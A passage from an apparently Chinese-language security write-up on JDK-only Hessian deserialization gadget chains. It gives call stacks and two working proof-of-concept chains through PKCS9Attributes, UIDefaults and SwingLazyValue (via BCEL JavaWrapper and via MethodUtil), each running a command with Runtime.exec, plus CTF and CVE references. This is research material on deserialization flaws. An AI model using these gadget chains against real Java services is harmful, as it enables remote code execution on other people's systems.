1 2 3 4 5 6 7 8 9 10 11 12 13 getMethod:1783, Class (java.lang) runMain:114, JavaWrapper (com.sun.org.apache.bcel.internal.util) _main:153, JavaWrapper (com.sun.org.apache.bcel.internal.util) invoke0:-1, NativeMethodAccessorImpl (sun.reflect) invoke:62, NativeMethodAccessorImpl (sun.reflect) invoke:43, DelegatingMethodAccessorImpl (sun.reflect) invoke:498, Method (java.lang.reflect) createValue:73, SwingLazyValue (sun.swing) getFromHashtable:216, UIDefaults (javax.swing) get:161, UIDefaults (javax.swing) getAttribute:265, PKCS9Attributes (sun.security.pkcs) toString:334, PKCS9Attributes (sun.security.pkcs) main:27, JDKGadgets (org.example)
测试demo：
1 2 3 4 5 6 7 8 9 10 JavaClass cls = Repository.lookupClass(Evil.class); String code = Utility.encode(cls.getBytes(), true); // System.out.println(code); PKCS9Attributes pkcs9Attributes = createWithoutConstructor(PKCS9Attributes.class); UIDefaults uiDefaults = new UIDefaults(); uiDefaults.put(PKCS9Attribute.EMAIL_ADDRESS_OID,new SwingLazyValue("com.sun.org.apache.bcel.internal.util.JavaWrapper", "_main", new Object[]{new String[]{"$$BCEL$$" + code,"s"}})); setFieldValue(pkcs9Attributes,"attributes",uiDefaults); pkcs9Attributes.toString();
1 2 3 4 5 6 7 8 9 10 // Evil.java import java.io.IOException; public class Evil { public static void _main(String[] argv) throws Exception { Runtime.getRuntime().exec("open /System/Applications/Calculator.app"); } }
这里最后会调用静态的_main方法。
MethodUtil RCE Gadgets 还有另外一条Gadgets，通过调用MethodUtil的invoke来RCE：
1 2 3 4 5 6 7 8 9 10 11 12 13 PKCS9Attributes pkcs9Attributes = createWithoutConstructor(PKCS9Attributes.class); UIDefaults uiDefaults = new UIDefaults(); uiDefaults.put(PKCS9Attribute.EMAIL_ADDRESS_OID,new SwingLazyValue("sun.reflect.misc.MethodUtil", "invoke", new Object[]{ Class.forName("sun.reflect.misc.MethodUtil").getMethod("invoke", Method.class, Object.class, Object[].class), new Object(), new Object[]{ Class.forName("java.lang.Runtime").getMethod("exec", String.class), Runtime.getRuntime(), new Object[]{"open /System/Applications/Calculator.app"}}})); Reflections.setFieldValue(pkcs9Attributes,"attributes",uiDefaults); pkcs9Attributes.toString();
调用栈如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 exec:348, Runtime (java.lang) invoke0:-1, NativeMethodAccessorImpl (sun.reflect) invoke:62, NativeMethodAccessorImpl (sun.reflect) invoke:43, DelegatingMethodAccessorImpl (sun.reflect) invoke:498, Method (java.lang.reflect) invoke:71, Trampoline (sun.reflect.misc) invoke0:-1, NativeMethodAccessorImpl (sun.reflect) invoke:62, NativeMethodAccessorImpl (sun.reflect) invoke:43, DelegatingMethodAccessorImpl (sun.reflect) invoke:498, Method (java.lang.reflect) invoke:275, MethodUtil (sun.reflect.misc) invoke0:-1, NativeMethodAccessorImpl (sun.reflect) invoke:62, NativeMethodAccessorImpl (sun.reflect) invoke:43, DelegatingMethodAccessorImpl (sun.reflect) invoke:498, Method (java.lang.reflect) invoke:71, Trampoline (sun.reflect.misc) invoke0:-1, NativeMethodAccessorImpl (sun.reflect) invoke:62, NativeMethodAccessorImpl (sun.reflect) invoke:43, DelegatingMethodAccessorImpl (sun.reflect) invoke:498, Method (java.lang.reflect) invoke:275, MethodUtil (sun.reflect.misc) invoke0:-1, NativeMethodAccessorImpl (sun.reflect) invoke:62, NativeMethodAccessorImpl (sun.reflect) invoke:43, DelegatingMethodAccessorImpl (sun.reflect) invoke:498, Method (java.lang.reflect) createValue:73, SwingLazyValue (sun.swing) getFromHashtable:216, UIDefaults (javax.swing) get:161, UIDefaults (javax.swing) getAttribute:265, PKCS9Attributes (sun.security.pkcs) toString:338, PKCS9Attributes (sun.security.pkcs)
总的来说，这两条Gadgets都用到了同一部分内容：
1 2 3 createValue:73, SwingLazyValue (sun.swing) getFromHashtable:216, UIDefaults (javax.swing) get:161, UIDefaults (javax.swing)
然后通过PKCS9Attributes的toString执行到get方法，最终执行任意对象的静态方法。
三、参考文章 https://paper.seebug.org/1814/
marshalsec工具：https://github.com/mbechler/marshalsec
0ctf2022: https://github.com/ceclin/0ctf-2022-soln-hessian-onlyjdk/tree/main/soln/src/main/kotlin/soln
四、小结 Hessian反序列化的入口点为HashMap的equals方法或者hashcode方法。结合XString，可以扩展到任意对象的toString方法的调用。在Dubbo Hessian中，存在一些历史漏洞，例如CVE-2021-43297，可通过构造畸形的序列化数据，执行任意对象的toString方法。